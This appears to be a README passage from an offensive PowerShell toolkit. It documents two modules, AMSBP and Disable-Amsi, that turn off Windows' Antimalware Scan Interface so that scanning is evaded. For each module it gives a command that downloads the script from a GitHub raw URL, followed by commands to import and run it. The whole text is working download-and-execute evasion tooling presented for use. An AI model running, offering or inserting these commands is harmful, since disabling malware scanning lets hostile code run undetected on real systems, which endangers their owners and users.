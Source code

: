 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges
|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name .\AMSBP.ps1 -Force
AMSBP
```

<br />

## Module Name
   <b><i>Disable-Amsi.ps1</i></b>
   
|Cmdlet Name|Description|Privileges
|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

```powershell      
Import-Module -Name .\Disable-Amsi.ps1 -Force
Disable-Amsi -DontDisableBlockLogging
```   
